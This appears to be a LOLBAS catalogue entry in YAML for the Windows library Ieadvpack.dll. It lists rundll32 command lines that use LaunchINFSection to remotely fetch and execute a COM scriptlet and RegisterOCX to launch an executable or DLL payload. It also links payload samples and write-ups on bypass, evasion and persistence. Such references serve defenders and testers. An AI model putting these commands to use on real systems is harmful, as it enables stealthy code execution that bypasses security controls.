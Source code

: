 ---
Name: Ieadvpack.dll
Description: Execute
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: rundll32.exe IEAdvpack.dll,LaunchINFSection c:\\test.inf,DefaultInstall_SingleUser,1,
    Description: Remote fetch and execute a COM Scriptlet by calling an information file directive (Section name specified).
  - Command: rundll32.exe IEAdvpack.dll,LaunchINFSection test.inf,,1,
    Description: Remote fetch and execute a COM Scriptlet by calling an information file directive (DefaultInstall section implied).
  - Command: rundll32.exe IEAdvpack.dll,RegisterOCX calc.exe
    Description: Launch executable by calling the RegisterOCX function.
  - Command: rundll32.exe IEAdvpack.dll,RegisterOCX test.dll
    Description: Launch a DLL payload by calling the RegisterOCX function.
Full Path:
  - c:\windows\system32\ieadvpack.dll
  - c:\windows\sysWOW64\ieadvpack.dll
Code Sample:
  - https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSLibraries/Payload/Advpack.inf
  - https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSLibraries/Payload/Advpack_calc.sct
Detection: []
Resources:
  - https://twitter.com/pabraeken/status/991695411902599168
  - https://bohops.com/2018/03/10/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence-part-2/
  - https://twitter.com/0rbz_/status/974472392012689408
Notes: Thanks to Pierre-Alexandre Braeken - @pabraeken (RegisterOCX - Cmd), Jimmy - @bohops (LaunchINFSection), fabrizio - @0rbz_ (RegisterOCX - DLL)

